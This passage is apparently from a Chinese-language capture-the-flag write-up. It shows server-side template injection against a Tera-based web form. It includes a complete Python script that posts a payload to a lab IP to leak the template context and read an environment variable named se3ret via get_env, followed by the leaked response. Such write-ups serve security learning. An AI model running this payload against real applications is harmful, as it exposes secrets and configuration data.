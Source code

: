 因为 `println!{:rs}` 没有导入，不像 Flask 中有 `print{:py}` 可以用，不能直接输出变量的值。不过我们可以用一个有 128 个分支的 if 来输出所有 ASCII 字符。

输出 `__tera_context{:rs}` 后发现有一个环境变量 `se3ret{:sh}`，故我们还要用 `set{:rs}` 和 built-in 函数 `get_env{:rs}` 将其储存在一个变量中才能在 context 中看见它。

完整的代码如下：

```python
import requests
url = "http://10.212.25.14:49452/"

def get_branch(i):
    char = chr(i)
    quoted_char = f"""'{char}'""" if char != "'" else '''"'"'''
    return """{%- elif char == """ + quoted_char + """ -%} """ + char + " "

branches = map(get_branch, range(127))

data = """
{% set arr = [__tera_context] %}
{% set flag = get_env(name="se3ret") %}
{%- for char in __tera_context -%}
    {%- if char == 'a' -%}
    a""" + "\n".join(branches) + """
    {%- else -%}
    <NOCHAR>
    {%- endif -%}
{% endfor %}
"""

print(data)

body = "content=" + data
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = requests.post(url, data=body, headers=headers)

print(r.text.replace("\\n", "\n").replace("\\", ''))
```

结果：

```html
    <!doctype html>
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.6.0/css/bootstrap.min.css">
        <link rel="stylesheet" href="/static/style.css">
        <title>身高计算器</title>
    </head>
    <body>
        <h1>身高计算器</h1>
        <h2>请输入你的身高</h2>
        <form action="/" method="post">
            <p><input type="text" name="content" placeholder="cm"></p>
            <p><input type="submit" value="提交"></p>
        </form>
        <div class="result">您的身高为

{"arr":["{
"name":"admin",
"work_dir":"/usr/admin/"
}
```